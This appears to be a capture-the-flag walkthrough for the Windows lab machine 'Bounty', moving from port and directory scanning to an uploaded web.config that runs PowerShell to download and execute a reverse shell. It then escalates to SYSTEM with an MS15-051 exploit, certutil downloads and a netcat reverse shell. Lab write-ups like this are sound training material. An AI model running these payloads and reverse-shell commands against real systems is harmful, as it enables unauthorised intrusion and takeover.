





---
search:
  exclude: true
---
# Bounty Writeup

## Introduction :

Bounty is an easy Windows box that was released back in June 2018.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 93.22.134.89 ] [~] → nmap -sC -sV 10.10.10.93
      Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-25 08:23 CET
      Nmap scan report for 10.10.10.93
      Host is up (0.095s latency).
      Not shown: 999 filtered ports
      PORT   STATE SERVICE VERSION
      80/tcp open  http    Microsoft IIS httpd 7.5
      | http-methods:
      |_  Potentially risky methods: TRACE
      |_http-server-header: Microsoft-IIS/7.5
      |_http-title: Bounty
      Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 20.16 seconds
    

## **Part 2 : Getting User Access**

It seems like our nmap scan found the 80th port opened, we will run a gobuster scan in order to enumerate the directories we will be able to work with.
    
    
    λ nihilist [ 93.22.134.89 ] [~] → gobuster -u http://10.10.10.93/ -w /usr/share/wordlists/directory-list-2.3-medium.txt
    
    
    =====================================================
    Gobuster v2.0.0              OJ Reeves (@TheColonial)
    =====================================================
    [+] Mode         : dir
    [+] Url/Domain   : http://10.10.10.93/
    [+] Threads      : 50
    [+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    [+] Status codes : 200,204,301,302,307,403
    [+] Extensions   : aspx
    [+] Timeout      : 10s
    =====================================================
    2019/11/25 08:28:36 Starting gobuster
    =====================================================
    /transfer.aspx (Status: 200)
    /uploadedFiles (Status: 301)
    

Gobuster seems to have found 2 interesting pages :  -/transfer.aspx (which returns a status 200)  -/uploadedfiles (which returns a status 301) 

 

Searching for the keywords **"IIS 7.5 RCE"** , the results tell us that we should be able to upload a file **web.config**

We will submit our script to the website and ready our terminal running the command nc with the -lvnp flags in order to catch the incoming connection to our 9001 port. 

_web.config:_
    
    
        <****?xml version="1.0" encoding="UTF-8"?> <****configuration> <****system.webServer> <****handlers accessPolicy="Read, Script, Write"> <****add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" /> <****/handlers> <****security> <****requestFiltering> <****fileExtensions> <****remove fileExtension=".config" /> <****hiddenSegments> <****/fileExtensions> <****remove segment="web.config" /> <****/hiddenSegments> <****/requestFiltering> <****/security> <****/system.webServer> <****/configuration> <****%@ Language=VBScript %> <****%
      Set s = CreateObject("WScript.Shell")
      Set cmd = s.Exec("cmd /c powershell -c IEX (New-Object Net.Webclient).downloadstring('ht>
      o = cmd.StdOut.Readall()
      Response.write(o)
      %****>****

Our nihilist.ps1 script is a copy of Nishang's [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

_Terminal 1:_
    
    
    λ nihilist [ 10.10.14.48/23 ] [~/_HTB/Bounty] → curl -sk https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1 > nihilist.ps1
    
    λ nihilist [ 10.10.14.48/23 ] [~/_HTB/Bounty] → echo 'Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.48 -Port 9001' >> nihilist.ps1
    

As it is written above, our nihilist.ps1 script will attempt to send a reverse shell connection to our machine at the of 10.10.14.48 adress, onto it's 9001st port. So we will ready our terminal with the nc command and it's -lvnp flags in order to catch the incoming connection.
    
    
      λ nihilist [ 10.10.14.48/23 ] [~/_HTB/Bounty] → nc -lvnp 9001
    

We submit our web.config file

We then browse to it, and then we wait for the reverse shell to come back to our terminal. 

_Terminal 1:_
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Bounty ]
    → python2 -m SimpleHTTPServer
    Serving HTTP on 0.0.0.0 port 8000 ...
    

_Terminal 2:_
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Bounty ]
    → nc -lvnp 9001
    

_Terminal 3:_
    
    
    
    λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Bounty ]
    → curl -vsk http://10.10.10.93/UploadedFiles/web.config
    *   Trying 10.10.10.93:80...
    * TCP_NODELAY set
    * Connected to 10.10.10.93 (10.10.10.93) port 80 (#0)
    > GET /UploadedFiles/web.config HTTP/1.1
    > Host: 10.10.10.93
    > User-Agent: curl/7.67.0
    > Accept: */*
    >
    

_Terminal 1:_
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Bounty ]
    → python2 -m SimpleHTTPServer
    Serving HTTP on 0.0.0.0 port 8000 ...
    10.10.10.93 - - [02/Dec/2019 08:22:36] "GET /nihilist.ps1 HTTP/1.1" 200 -
    

_Terminal 2:_
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Bounty ]
    → nc -lvnp 9001
    Connection from 10.10.10.93:49158
    Windows PowerShell running as user BOUNTY$ on BOUNTY
    Copyright (C) 2015 Microsoft Corporation. All rights reserved.
    
    PS C:\windows\system32\inetsrv>
    
    PS C:\windows\system32\inetsrv> whoami
    bounty\merlin
    

And we're in ! we are logged in as the user merlin, now let's grab the user flag located in C:\users\merlin\desktop

    
    
      PS C:\windows\system32\inetsrv> cd ../../..
      PS C:\> ls
    
    
          Directory: C:\
    
    
      Mode                LastWriteTime     Length Name
      ----                -------------     ------ ----
      d----         5/30/2018   4:14 AM            inetpub
      d----         7/14/2009   6:20 AM            PerfLogs
      d-r--         6/10/2018   3:43 PM            Program Files
      d-r--         7/14/2009   8:06 AM            Program Files (x86)
      d-r--         5/31/2018  12:18 AM            Users
      d----         5/31/2018  11:37 AM            Windows
    
    
      PS C:\> cd Users\Merlin
      PS C:\Users\Merlin> cd Desktop
      PS C:\Users\Merlin\Desktop> more user.txt
      e2XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

## **Part 3 : Getting Root Access**

In order to escalate privileges from merlin to the SYSTEM user, we need to first look at the results of the systeminfo command.

_Terminal 1:_
    
    
      PS C:\Users> systeminfo
    
    Host Name:                 BOUNTY
    OS Name:                   Microsoft Windows Server 2008 R2 Datacenter
    OS Version:                6.1.7600 N/A Build 7600
    OS Manufacturer:           Microsoft Corporation
    OS Configuration:          Standalone Server
    OS Build Type:             Multiprocessor Free
    Registered Owner:          Windows User
    Registered Organization:
    Product ID:                55041-402-3606965-84760
    Original Install Date:     5/30/2018, 12:22:24 AM
    System Boot Time:          12/2/2019, 8:56:08 AM
    System Manufacturer:       VMware, Inc.
    System Model:              VMware Virtual Platform
    System Type:               x64-based PC
    Processor(s):              1 Processor(s) Installed.
                               [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
    BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
    Windows Directory:         C:\Windows
    System Directory:          C:\Windows\system32
    Boot Device:               \Device\HarddiskVolume1
    System Locale:             en-us;English (United States)
    Input Locale:              en-us;English (United States)
    Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
    Total Physical Memory:     2,047 MB
    Available Physical Memory: 1,588 MB
    Virtual Memory: Max Size:  4,095 MB
    Virtual Memory: Available: 3,595 MB
    Virtual Memory: In Use:    500 MB
    Page File Location(s):     C:\pagefile.sys
    Domain:                    WORKGROUP
    Logon Server:              N/A
    Hotfix(s):                 N/A
    Network Card(s):           1 NIC(s) Installed.
                               [01]: Intel(R) PRO/1000 MT Network Connection
                                     Connection Name: Local Area Connection
                                     DHCP Enabled:    No
                                     IP address(es)
                                     [01]: 10.10.10.93
    
    

We see that there are no Hotfixes onto the machine, which indicates a serious security flaw. So we will attempt to escalate privileges using the MS15-051. we will not forget that we will be applying a privilege escalation binary onto a 64 bit machine.

Download from https://eternallybored.org/misc/netcat/ 

_Terminal 2:_
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Bounty ]
    → wget https://github.com/euphrat1ca/ms15-051/raw/master/ms15-051/ms15-051/x64/ms15-051.exe
    --2019-12-02 09:07:00--  https://github.com/euphrat1ca/ms15-051/raw/master/ms15-051/ms15-051/x64/ms15-051.exe
    Loaded CA certificate '/etc/ssl/certs/ca-certificates.crt'
    Resolving github.com (github.com)... 140.82.118.3
    Connecting to github.com (github.com)|140.82.118.3|:443... connected.
    HTTP request sent, awaiting response... 302 Found
    Location: https://raw.githubusercontent.com/euphrat1ca/ms15-051/master/ms15-051/ms15-051/x64/ms15-051.exe [following]
    --2019-12-02 09:07:00--  https://raw.githubusercontent.com/euphrat1ca/ms15-051/master/ms15-051/ms15-051/x64/ms15-051.exe
    Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.120.133
    Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.120.133|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 55296 (54K) [application/octet-stream]
    Saving to: ‘ms15-051.exe’
    
    ms15-051.exe             100%[===============================>]  54.00K  --.-KB/s    in 0.06s
    
    2019-12-02 09:07:01 (852 KB/s) - ‘ms15-051.exe’ saved [55296/55296]
    
    
    λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Bounty ]
    → python2 -m SimpleHTTPServer
    Serving HTTP on 0.0.0.0 port 8000 ...
    
    

Now we just need to download both the ms15-051.exe and nc.exe binary onto our local machine, at the IP 10.10.14.48 at the 8000th port. 

_Terminal 1:_
    
    
    PS C:\Users> certutil -urlcache -f http://10.10.14.48:8000/ms15-051.exe nihilist_privesc.exe
    ****  Online  ****
    CertUtil: -URLCache command FAILED: 0x80070005 (WIN32: 5)
    CertUtil: Access is denied.
    

Let's not forget to download it onto the machine within a folder where we have the write rights.
    
    
    PS C:\Users> cd ..
    PS C:\> cd Windows
    PS C:\Windows> cd temp
    

Now we should be able to download our 2 binaries
    
    
    PS C:\Windows\temp> certutil -urlcache -f http://10.10.14.48:8000/ms15-051.exe nihilist_privesc.exe
    ****  Online  ****
    CertUtil: -URLCache command completed successfully.
    
    
    
      PS C:\windows\temp> certutil -urlcache -f http://10.10.14.48:8000/nc64.exe nc64.exe
    ****  Online  ****
    CertUtil: -URLCache command completed successfully.
    

Our binaries got uploaded ! now before we execute it we will ready our reverse shell terminal with the same nc command to catch the incoming connection.

_Terminal 2:_
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Bounty ]
      → nc -lvnp 9999
    

_Terminal 1:_
    
    
      PS C:\windows\temp> certutil -urlcache -f http://10.10.14.48:8000/nc64.exe nc64.exe
    ****  Online  ****
    CertUtil: -URLCache command completed successfully.
    PS C:\windows\temp> ls
    
    
        Directory: C:\windows\temp
    
    
    Mode                LastWriteTime     Length Name
    ----                -------------     ------ ----
    d----         6/10/2018   3:44 PM            vmware-SYSTEM
    -a---         5/30/2018   3:19 AM          0 DMI5FAC.tmp
    -a---         12/2/2019  10:12 AM      55296 nihilist_privesc.exe
    -a---         12/2/2019  11:02 AM      43696 nc64.exe
    -a---         6/10/2018   3:44 PM     203777 vminst.log
    -a---         12/2/2019   8:56 AM      57269 vmware-vmsvc.log
    -a---         6/11/2018  12:47 AM      22447 vmware-vmusr.log
    -a---         12/2/2019   8:56 AM        910 vmware-vmvss.log
    
    
    PS C:\windows\temp> ./nihilist_privesc.exe "c:\windows\temp\nc64.exe -e cmd 10.10.14.48 9999"
    
    

_Terminal 2:_
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Bounty ]
    → nc -lvnp 9999
    
    Connection from 10.10.10.93:49189
    Microsoft Windows [Version 6.1.7600]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
    
    
    C:\windows\temp>whoami
    whoami
    nt authority\system
    
    C:\windows\temp>cd ..
    cd ..
    
    C:\Windows>cd ..
    cd ..
    
    C:\>cd Users
    cd Users
    
    C:\Users>dir
    dir
     Volume in drive C has no label.
     Volume Serial Number is 5084-30B0
    
     Directory of C:\Users
    
    05/30/2018  11:18 PM    <****DIR>          .
    05/30/2018  11:18 PM <****DIR>          ..
    05/30/2018  11:18 PM <****DIR>          Administrator
    05/30/2018  03:44 AM <****DIR>          Classic .NET AppPool
    05/29/2018  11:22 PM <****DIR>          merlin
    05/30/2018  04:44 AM <****DIR>          Public
                   0 File(s)              0 bytes
                   6 Dir(s)  11,884,384,256 bytes free
    
    C:\Users>cd Administrator
    cd Administrator
    
    C:\Users\Administrator>cd Desktop
    cd Desktop
    
    C:\Users\Administrator\Desktop>type root.txt
    type root.txt
    c8XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX

And that's it ! we have been able to get a root shell onto the box and we have been able to print out the root flag. 

## **Conclusion**

Here we can see the progress graph :

